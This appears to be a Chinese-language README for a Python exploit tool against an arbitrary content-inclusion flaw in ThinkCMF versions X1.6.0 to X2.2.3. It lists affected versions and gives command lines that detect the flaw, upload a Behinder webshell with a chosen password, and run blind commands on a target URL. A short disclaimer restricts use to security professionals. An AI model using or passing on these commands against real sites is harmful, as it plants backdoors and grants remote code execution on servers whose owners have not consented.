 # 说明：

本工具适用于Thinkcmf任意内容包含漏洞，提供一般检测，一键上传冰蝎马，以及无回显命令执行功能。ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

本工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。

# 适用版本：

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
ThinkCMF X2.2.3

ThinkCMF源码下载地址https://gitee.com/thinkcmf/ThinkCMFX/releases

# 使用说明:

### 显示帮助
python thinkcmf_exp.py -h 

### 检测漏洞是否存在
python thinkcmf_exp.py -u http://yourURL/
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E6%A3%80%E6%B5%8B%E6%BC%8F%E6%B4%9E.png)

### 上传冰蝎马
python thinkcmf_exp.py -u http://yourURL/ -p yourPassword

### 无回显命令执行

python thinkcmf_exp.py -u http://yourURL/ -c yourCommand
